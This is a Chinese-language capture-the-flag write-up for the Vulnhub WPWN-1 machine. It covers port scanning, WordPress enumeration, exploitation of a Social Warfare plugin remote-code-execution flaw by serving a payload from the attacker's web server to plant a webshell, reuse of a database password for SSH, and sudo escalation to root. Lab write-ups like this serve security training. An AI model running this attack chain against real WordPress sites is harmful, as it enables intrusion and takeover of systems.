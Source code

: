 ```yaml
---

title: Vulnhub	537 SO WPWN-1
date: 2020-08-18
---
```

考点：dirsearch,wordpress,sudo

靶机链接：<https://www.vulnhub.com/entry/wpwn-1,537/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| WPWN-1     | 10.0.2.39 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.39
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
|_  256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
```

### WEB测试

#### dirsearch

发现wordpress目录，看来是搞wordpress了

![1](https://static.iihack.com/vulnhub/537/1.jpg)

#### wpscan

```bash
$ wpscan --url http://10.0.2.39/wordpress --api-token ******************************************* -e
```

![2](https://static.iihack.com/vulnhub/537/2.jpg)

参考[WordPress Plugin Social Warfare < 3.5.3 - Remote Code Execution](https://www.exploit-db.com/exploits/46794)

## 获得权限

### getwebshell

kali上开web服务

```bash
$ python -m 'http.server' 80
```

![3](https://static.iihack.com/vulnhub/515/3.jpg)
```bash
$ python2  46794.py -t http://10.0.2.39/wordpress/ -p http://10.0.2.24/CVE/CVE-2019-9978 
```

执行后访问shell地址返回200，使用antsword连接成功

![3](https://static.iihack.com/vulnhub/537/3.jpg)

### 用户权限

查看wordpress数据库配置

![4](https://static.iihack.com/vulnhub/537/4.jpg)

获得密码`R3&]vzhHmMn9,:-5`

查看/home文件夹发现用户 `takis`

![5](https://static.iihack.com/vulnhub/537/5.jpg)

登录成功

## 提权

![6](https://static.iihack.com/vulnhub/537/6.jpg)

获得root权限

### 彩蛋

这里root.txt找flag的过程中发现还有个彩蛋

![7](https://static.iihack.com/vulnhub/537/7.jpg)



关联[vulnhub515](https://www.iihack.com/2020/07/17/vulnhub-515.html)